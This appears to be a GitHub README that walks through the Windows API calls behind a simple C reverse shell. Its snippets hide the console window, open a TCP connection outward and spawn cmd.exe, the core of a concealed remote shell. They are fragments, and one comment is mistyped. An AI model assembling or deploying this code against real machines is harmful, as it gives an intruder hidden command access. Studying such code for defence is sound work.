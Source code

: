 ## About this simple low level reverse shell
#### introduction
the main thing in exploit developement, malware analyse or any other topic when you are writing an exploit is how to deal with remote servers or machines and receive/ send data, so that you have to be familiar with the SOCKETs.

socket is a software structure within a network node of a computer network that serves as an endpoint for sending and receiving data across the network

recognize that we talk about the low level language like c/c++. so first of all you have to install all prerequired stuff, an IDE, a compiler and a debugger which you can find them [here](https://code.visualstudio.com/docs/languages/cpp#_install-a-compiler)

#### The functions I've used
1. [ShowWindow](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjh_t6mjP35AhXFglwKHcEcBgwQFnoECAQQAw&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fwinuser%2Fnf-winuser-showwindow&usg=AOvVaw0m88U6DTLNGTpAJUXh7Wlp)
```c
ShowWindow( GetConsoleWindow(), SW_HIDE ); // hide the console of the current process from the user interface and run it in the background
```
2. [WSAStartup](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwihhcTUjP35AhXeQ0EAHTIQAhUQFnoECAYQAQ&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fwinsock%2Fnf-winsock-wsastartup&usg=AOvVaw2dl7R4ZunjRdgaij7U1u_-)
```c
WSAStartup(MAKEWORD(2, 2), &wsa); // initialize winsock
```
3. [WSASocket](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjrgOvhjP35AhV-QUEAHQy7C2cQFnoECAYQAQ&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fwinsock2%2Fnf-winsock2-wsasocketa&usg=AOvVaw1w00qrcKKbcugzayOhuo_o)
```c
shell = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int) NULL, (unsigned int) NULL);
```
4. [WSAConnect](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwiJhcfzjP35AhWOS0EAHQbQDc4QFnoECAIQAQ&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fwinsock2%2Fnf-winsock2-wsaconnect&usg=AOvVaw11903FO_fI_g-PltsdS2hX)
```c
connection = WSAConnect(shell, (SOCKADDR*)&shell_addr, sizeof(shell_addr), NULL, NULL, NULL, NULL);
```
5. [CreateProcess](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjn15SAjf35AhWSmFwKHY2SDdwQFnoECAMQAQ&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fprocessthreadsapi%2Fnf-processthreadsapi-createprocessa&usg=AOvVaw3muVjZWA6DzAcUd32dbaSO)
```c
CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi); // create proccess that spawn command prompt (shell)
```
6. [WaitForSingleObject](https://www.google.com/url?sa=t&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwiKie6Tjf35AhXlQkEAHSMXDFwQFnoECAgQAQ&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fsynchapi%2Fnf-synchapi-waitforsingleobject&usg=AOvVaw1QxSMBrJFbVO2ai8p37N79)
```c
WaitForSingleObject(pi.hProcess, INFINITE); \\ wait the process until it ends and close the soxket
```
7. [CloseHandle](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwib3Pahjf35AhWbi1wKHRA2AqMQFnoECAkQAQ&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fhandleapi%2Fnf-handleapi-closehandle&usg=AOvVaw0WzqOSJjwQS5kHDz5cTv71)
```c
CloseHandle(pi.hProcess);
```